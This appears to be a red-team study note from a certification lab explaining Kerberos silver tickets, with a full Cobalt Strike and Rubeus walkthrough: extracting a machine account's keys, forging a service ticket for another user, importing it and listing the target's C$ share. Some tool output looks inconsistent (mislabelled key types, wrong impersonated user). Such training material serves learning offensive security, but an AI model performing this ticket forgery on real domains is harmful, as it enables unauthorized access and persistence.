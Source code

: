 
A "silver ticket" is a forged service ticket, signed using the secret material (RC4/AES keys) of a computer account.  You may forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence.  

By default, computer passwords change every 30 days, at which time you must re-obtain the new secrets to continue making silver tickets.  Both [[Silver Tickets]] and [[Golden Tickets]] are forged, so can be generated on your own machine and imported into your Beacon session for use.

####  📗 Difference Between Silver and Golden

A silver ticket can be used to impersonate any user, but it's limited to either that single service or to any service but on a single machine.

A golden ticket can be used to impersonate any user, to any service, on any machine in the domain.

#### 🖊️ via Cobalt Strike

1) Obtain Kerberos keys: [[Extracting Kerberos Keys]] from a SYSTEM beacon

```
Session           : Service from 0
User Name         : WKSTN-1$
Domain            : DEV
Logon Server      : (null)
Logon Time        : 10/17/2023 10:31:24 AM
SID               : S-1-5-20

	 * Username : wkstn-1$
	 * Domain   : DEV.CYBERBOTIC.IO
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
```


2) On your Windows attacking machine, use Rubeus to forge a service ticket. In this example we use user "nlamb" and the CIFS service.

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : DEV.CYBERBOTIC.IO (DEV)
[*] SID            : S-1-5-21-569305411-121244042-2357301523
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : cifs
[*] Target         : wkstn-1.dev.cyberbotic.io

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'nlamb' to 'cifs/wkstn-1.dev.cyberbotic.io'

[*] AuthTime       : 9/9/2022 10:49:41 AM
[*] StartTime      : 9/9/2022 10:49:41 AM
[*] EndTime        : 9/9/2022 8:49:41 PM
[*] RenewTill      : 9/16/2022 10:49:41 AM

[*] base64(ticket.kirbi):

      doIFXD[...]MuaW8=
```

3) Then import the ticket.

```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
[-] could not open \\wkstn-1.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass

[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5668
[+] Ticket successfully imported!
[+] LUID            : 0x423091

beacon> steal_token 5668
[+] Impersonated DEV\bfarmer

beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
[*] Listing: \\wkstn-1.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 08:17:30   $Recycle.Bin
          dir     08/15/2022 22:22:31   $WinREAgent
          dir     01/27/2022 18:18:49   Documents and Settings
          dir     12/07/2019 09:14:52   PerfLogs
```

Here are some useful ticket combinations:

|   |   |
|---|---|
|**Technique**|**Required Service Tickets**|
|psexec|HOST & CIFS|
|winrm|HOST & HTTP|
|dcsync (DCs only)|LDAP|




#### ⚠ Opsec




### Properties
---
📆 created   {{25-02-2024}} 12:46
🏷️ tags: #redteam #crto 

---

